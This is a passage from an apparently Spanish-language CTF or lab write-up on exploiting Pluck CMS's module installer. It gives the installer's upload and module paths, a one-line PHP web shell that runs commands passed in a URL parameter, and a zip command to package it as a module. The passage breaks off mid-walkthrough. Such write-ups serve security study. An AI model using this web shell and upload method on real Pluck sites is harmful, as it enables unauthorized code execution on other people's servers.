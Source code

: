 El Exploit parece entrar en la instalación de módulos y carga un **archivo ZIP**, que supongo es una Reverse Shell o una WebShell, pero este **archivo ZIP** debes crearlo manualmente.

Entonces, este Exploit solamente sirve para cargar y ejecutar el payload malicioso que queramos utilizar.

Tenemos la ruta que se utiliza de **Pluck** para cargar el módulo:
```python
upload_url = "http://localhost/pluck/admin.php?action=installmodule"
```

Y una vez que se carga, podemos ver dónde se está guardando el módulo:
```python
rce_url="http://localhost/pluck/data/modules/mirabbas/miri.php"
```
Siendo la ruta `/data/module/<nombre_módulo>/<script_malicioso.php>`. Además, comprobamos que se utiliza un script en **PHP**.

Vamos a aprovecharnos de esta vulnerabilidad, para ganar acceso a la máquina.

Lo haremos de forma manual, ya que el script que ejecuta este Exploit, no funcionará.

<br>

<h3 id="Modulo1">Cargando una WebShell como Módulo a Pluck</h3>

Primero, vamos a crear nuestra **WebShell de PHP**.

----------
**IMPORTANTE:**

Utilizar una **WebShell de PHP** puede corromper **Pluck**, haciendo que no podamos utilizar ninguna función, aunque nuestro módulo seguirá existiendo.

----------

Crea un nuevo archivo, llámalo **shell.php** y agrega el siguiente script:
```bash
<?php
	system($_GET['cmd']);
?>
```

Bien, ahora vamos a comprimir nuestra **WebShell de PHP** en un **archivo ZIP** con la herramienta **zip**:
```bash
zip shell.zip shell.php
  adding: shell.php (stored 0%)
```

Desde **Pluck**, podemos simplemente cambiar el parámetro `action=start` y por `action=installmodule` y ya podremos cargar el módulo:

<p align="center">